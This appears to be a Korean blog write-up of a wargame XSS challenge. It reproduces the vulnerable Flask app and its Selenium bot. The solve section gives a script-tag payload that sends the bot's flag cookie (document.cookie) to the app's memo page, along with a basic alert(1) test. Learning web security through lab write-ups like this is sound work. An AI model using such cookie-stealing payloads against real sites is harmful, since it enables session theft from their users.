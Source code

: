 ```yaml
---
title:  "28.XSS-1"
excerpt: "28.XSS-1"
categories:
  - wargame
tags:
  - wargame
  - Webhacking
last_modified_at: 2021-12-29
toc: true
toc_sticky: true
---
```


# Question info.
여러 기능과 입력받은 URL을 확인하는 봇이 구현된 서비스입니다.  
XSS 취약점을 이용해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.

# Function analysis
![28_1](/assets/images/wargame/28_1.PNG)  

![28_2](/assets/images/wargame/28_2.PNG)  

![28_3](/assets/images/wargame/28_3.PNG)  

![28_4](/assets/images/wargame/28_4.PNG)  

vuln(xss) page 링크를 클릭하면 Alert창이 뜨면서 1이 나온다.  
``vuln?param=<script>alert(1)</script>``  
memo 링크를 클릭하면 hello가 입력된다.  
``memo?memo=hello``  
flag 링크를 클릭하면 인자를 입력하는 페이지가 나온다.

# Code analysis
```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)


```

```python
from selenium import webdriver

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True
```

왜? Selenium을 사용했을까?  
selenium은 동적 웹을 스크래핑할 때 사용하는 라이브러리이다.  
chromedriver를 이용해서 크롬 창을 띄운 뒤 마우스로 스크래핑하듯 모두 긁는다.  
``driver.get("http://127.0.0.1:8000/")``  
서버 측에 브라우저를 연다.

```python
try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"
```

FLAG값은 flag.txt에 들어 있다.

```python
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

check_xss는 flag링크에서 파라미터를 입력하고 '제출'을 누르면 실행되는 함수다.  
보면 서버 측 브라우저에 파라미터 값이 넘어가서 실행되는 것을 알 수 있다.






# Solve

이 문제는 서버 쪽에서 실행된 브라우저를 조작하여 flag값을 얻는 문제였다.  
서버 측 브라우저에게 memo 페이지로 접근하게 하고 서버 측 쿠키값을 memo 페이지에 적도록 유도하는 문제이다.
memo 페이지에 계속 쌓이는 값들은 html 파일에 그대로 축적되는 것이라서 서버에 그대로 적용된다.  
그래서 서버나 클라이언트가 memo 페이지에 접근해도 값이 그대로 남아 있게 된다.  


즉, vuln 페이지에서 파리미터로 넣은 JS 코드를 실행시켜 memo 페이지로 가게 유도하고 쿠키값을 적게 하면된다. 

![28_5](/assets/images/wargame/28_5.PNG)  

flag 페이지에서 파라미터로  

```html
<script>window.location.href="http://127.0.0.1:8000/memo?memo="+document.cookie;</script>
```

을 넣으면 된다.

![28_6](/assets/images/wargame/28_6.PNG)  

memo 페이지로 가서 확인해보면 flag값이 나와 있다.






